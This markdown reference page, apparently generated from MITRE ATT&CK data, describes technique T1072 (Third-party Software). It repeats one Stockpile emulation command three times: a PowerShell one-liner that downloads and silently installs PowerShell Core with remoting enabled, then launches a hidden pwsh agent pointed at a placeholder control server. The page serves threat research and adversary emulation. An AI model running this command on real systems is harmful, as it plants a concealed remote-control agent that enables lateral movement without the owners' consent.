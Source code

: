 
# Third-party Software

## Description

### MITRE Description

> Third-party applications and software deployment systems may be in use in the network environment for administration purposes (e.g., SCCM, VNC, HBSS, Altiris, etc.). If an adversary gains access to these systems, then they may be able to execute code.

Adversaries may gain access to and use third-party systems installed within an enterprise network, such as administration, monitoring, and deployment systems as well as third-party gateways and jump servers used for managing other systems. Access to a third-party network-wide or enterprise-wide software system may enable an adversary to have remote code execution on all systems that are connected to such a system. The access may be used to laterally move to other systems, gather information, or cause a specific effect, such as wiping the hard drives on all endpoints.

The permissions required for this action vary by system configuration; local credentials may be sufficient with direct access to the third-party system, or specific domain credentials may be required. However, the system may require an administrative account to log in or to perform it's intended purpose.

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User', 'Administrator', 'SYSTEM']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: True
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1072

## Potential Commands

```
{'windows': {'psh': {'command': '$wc=New-Object System.Net.WebClient;\n$output="PowerShellCore.msi";\n$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", $output);\nStart-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 ENABLE_PSREMOTING=1 REGISTER_MANIFEST=1" -Wait;\n$env:Path += ";C:\\Program Files\\Powershell\\6";\nStart-Process pwsh -ArgumentList "-c #{location} -server #{server} - group #{group} -executors pwsh" -WindowStyle hidden;\n', 'cleanup': 'rm PowerShellCore.msi;\n'}}}
```

## Commands Dataset

```
[{'command': {'windows': {'psh': {'cleanup': 'rm PowerShellCore.msi;\n',
                                  'command': '$wc=New-Object '
                                             'System.Net.WebClient;\n'
                                             '$output="PowerShellCore.msi";\n'
                                             '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                             '$output);\n'
                                             'Start-Process msiexec.exe '
                                             '-ArgumentList "/package '
                                             'PowerShellCore.msi /quiet '
                                             'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                             'ENABLE_PSREMOTING=1 '
                                             'REGISTER_MANIFEST=1" -Wait;\n'
                                             '$env:Path += ";C:\\Program '
                                             'Files\\Powershell\\6";\n'
                                             'Start-Process pwsh -ArgumentList '
                                             '"-c #{location} -server '
                                             '#{server} - group #{group} '
                                             '-executors pwsh" -WindowStyle '
                                             'hidden;\n'}}},
  'name': 'Download, install and start new process under PowerShell Core 6',
  'source': 'data/abilities/execution/60f63260-39bb-4136-87a0-b6c2dca799fc.yml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Mitre Stockpile - Download, install and start new process under PowerShell Core 6': {'description': 'Download, '
                                                                                                       'install '
                                                                                                       'and '
                                                                                                       'start '
                                                                                                       'new '
                                                                                                       'process '
                                                                                                       'under '
                                                                                                       'PowerShell '
                                                                                                       'Core '
                                                                                                       '6',
                                                                                        'id': '60f63260-39bb-4136-87a0-b6c2dca799fc',
                                                                                        'name': 'Install '
                                                                                                'PowerShell '
                                                                                                'Core '
                                                                                                '6',
                                                                                        'platforms': {'windows': {'psh': {'cleanup': 'rm '
                                                                                                                                     'PowerShellCore.msi;\n',
                                                                                                                          'command': '$wc=New-Object '
                                                                                                                                     'System.Net.WebClient;\n'
                                                                                                                                     '$output="PowerShellCore.msi";\n'
                                                                                                                                     '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                                                                                                                     '$output);\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'msiexec.exe '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"/package '
                                                                                                                                     'PowerShellCore.msi '
                                                                                                                                     '/quiet '
                                                                                                                                     'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                                                                                                                     'ENABLE_PSREMOTING=1 '
                                                                                                                                     'REGISTER_MANIFEST=1" '
                                                                                                                                     '-Wait;\n'
                                                                                                                                     '$env:Path '
                                                                                                                                     '+= '
                                                                                                                                     '";C:\\Program '
                                                                                                                                     'Files\\Powershell\\6";\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'pwsh '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"-c '
                                                                                                                                     '#{location} '
                                                                                                                                     '-server '
                                                                                                                                     '#{server} '
                                                                                                                                     '- '
                                                                                                                                     'group '
                                                                                                                                     '#{group} '
                                                                                                                                     '-executors '
                                                                                                                                     'pwsh" '
                                                                                                                                     '-WindowStyle '
                                                                                                                                     'hidden;\n'}}},
                                                                                        'tactic': 'execution',
                                                                                        'technique': {'attack_id': 'T1072',
                                                                                                      'name': 'Third-party '
                                                                                                              'Software'}}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Lateral Movement](../tactics/Lateral-Movement.md)
    

# Mitigations

None

# Actors


* [Threat Group-1314](../actors/Threat-Group-1314.md)


